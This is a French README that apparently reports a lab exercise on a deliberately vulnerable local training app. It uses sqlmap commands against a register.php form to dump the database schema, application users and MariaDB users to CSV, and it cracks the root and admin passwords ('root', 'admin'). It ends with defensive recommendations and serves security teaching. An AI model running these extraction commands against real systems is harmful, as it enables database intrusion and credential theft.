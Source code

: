 # 🛡️ SQL Injection Training App - Rapport d'Exploitation 🛡️

![SQL Injection](https://user-images.githubusercontent.com/yourusername/sql-injection-banner.png)

---

## 📋 Objectif

Ce projet a pour but de démontrer l'exploitation de vulnérabilités d'injection SQL dans une application web. Les objectifs spécifiques sont :

1. **Extraire le schéma de la base de données** et le sauvegarder dans un fichier `.csv`.
2. **Lister les utilisateurs de l'application** et les sauvegarder dans un fichier `.csv`.
3. **Lister les utilisateurs de MariaDB** et les sauvegarder dans un fichier `.csv`.
4. **Obtenir et documenter le mot de passe de l'utilisateur root de MariaDB** par force brute.
5. **Challenge 2 : Obtenir et documenter le mot de passe de l'administrateur de l'application**.

---

## 🛠️ Pré-requis

- **sqlmap** : Outil puissant pour automatiser la détection et l'exploitation des vulnérabilités d'injection SQL.
- **MariaDB** : Système de gestion de base de données utilisé par l'application cible.
- **Accès à l'application web vulnérable**.

---

## 🚀 Étapes Réalisées

### 1. 🔍 Identification des Vulnérabilités d'Injection SQL

En testant les champs du formulaire `register.php` avec une apostrophe (`'`), une erreur SQL a été générée, révélant l'utilisation de MariaDB. Cela a indiqué une potentielle vulnérabilité d'injection SQL.

**erreur :**

```
Error: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'd41d8cd98f00b204e9800998ecf8427e','','')' at line 1
```

---

### 2. 🗄️ Extraction du Schéma de la Base de Données

**Commande utilisée :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
       --data="uid=test&password=test&name=test&descr=test" \
       --dbs --batch
```

**Bases de données identifiées :**

- `information_schema`
- `mysql`
- `performance_schema`
- `sqlitraining`
- `sys`

Nous avons ciblé la base de données `sqlitraining` pour extraire son schéma.

**Extraction des tables de `sqlitraining` :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
       --data="uid=test&password=test&name=test&descr=test" \
       -D sqlitraining --tables --batch
```

**Tables trouvées :**

- `products`
- `users`

**Dump du schéma dans un fichier `.csv` :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
       --data="uid=test&password=test&name=test&descr=test" \
       -D sqlitraining --dump --dump-format=CSV --batch
```

---

### 3. 👥 Liste des Utilisateurs de l'Application

En ciblant la table `users` de la base `sqlitraining`, nous avons extrait les utilisateurs de l'application.

**Commande :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
       --data="uid=test&password=test&name=test&descr=test" \
       -D sqlitraining -T users --dump --dump-format=CSV --batch
```

**Résultat :**

Les informations des utilisateurs ont été sauvegardées dans `application_users.csv`.

---

### 4. 🗝️ Liste des Utilisateurs de MariaDB

Nous avons ciblé la base de données `mysql`, qui contient les informations des utilisateurs de MariaDB.

**Commande :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
       --data="uid=test&password=test&name=test&descr=test" \
       -D mysql -T user --dump --dump-format=CSV --batch
```

**Résultat :**

La liste des utilisateurs de MariaDB a été extraite et sauvegardée dans `mariadb_users.csv`.

---

### 5. 🔐 Récupération du Mot de Passe de l'Utilisateur Root de MariaDB

En analysant les données extraites, nous avons récupéré le hachage du mot de passe de l'utilisateur `root`.

**Hachage récupéré :**

```
81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
```

**Déchiffrement du hachage :**

Nous avons utilisé [CrackStation](https://crackstation.net/) pour déchiffrer le hachage.

**Mot de passe obtenu :**

```
root
```

*Le mot de passe est étonnamment simple, ce qui souligne l'importance d'utiliser des mots de passe forts.*

---

### 6. 🏆 Challenge 2 : Récupération du Mot de Passe de l'Administrateur de l'Application

En examinant la table `users`, nous avons identifié l'utilisateur administrateur.

**Commande :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
       --data="uid=test&password=test&name=test&descr=test" \
       -D sqlitraining -T users --dump --dump-format=CSV --batch
```

**Mot de passe de l'administrateur :**

```
admin
```

*Encore une fois, un mot de passe faible qui peut être facilement compromis.*

---

## 📁 Fichiers Générés

- **Schéma de la base de données** : [`database_schema.csv`](./database_schema.csv)
- **Liste des utilisateurs de l'application** : [`application_users.csv`](./application_users.csv)
- **Liste des utilisateurs de MariaDB** : [`mariadb_users.csv`](./mariadb_users.csv)
- **Mot de passe root de MariaDB** : [`mariadb_root_password.txt`](./mariadb_root_password.txt)
- **Mot de passe administrateur de l'application** : [`application_admin_password.txt`](./application_admin_password.txt)

---

## 📊 Résumé des Résultats

| Objectif                                                       | Statut    |
|---------------------------------------------------------------|-----------|
| Extraction du schéma de la base de données                    | ✅ Réussi |
| Liste des utilisateurs de l'application                       | ✅ Réussi |
| Liste des utilisateurs de MariaDB                             | ✅ Réussi |
| Récupération du mot de passe root de MariaDB                  | ✅ Réussi |
| Challenge 2 : Mot de passe de l'administrateur de l'application | ✅ Réussi |

---

## 🔒 Conclusion et Recommandations

Cette exploitation démontre à quel point les applications web peuvent être vulnérables aux attaques par injection SQL si elles ne sont pas correctement sécurisées.

**Recommandations :**

- **Utiliser des requêtes préparées** : Éviter les concaténations de chaînes pour construire des requêtes SQL.
- **Valider et assainir toutes les entrées utilisateur** : Utiliser des fonctions d'échappement et de validation.
- **Mots de passe forts** : Toujours utiliser des mots de passe complexes et uniques pour les utilisateurs et les administrateurs.
- **Mises à jour régulières** : Garder les systèmes et les applications à jour avec les derniers correctifs de sécurité.
- **Limiter les privilèges** : Les utilisateurs ne devraient avoir que les privilèges nécessaires pour accomplir leurs tâches.

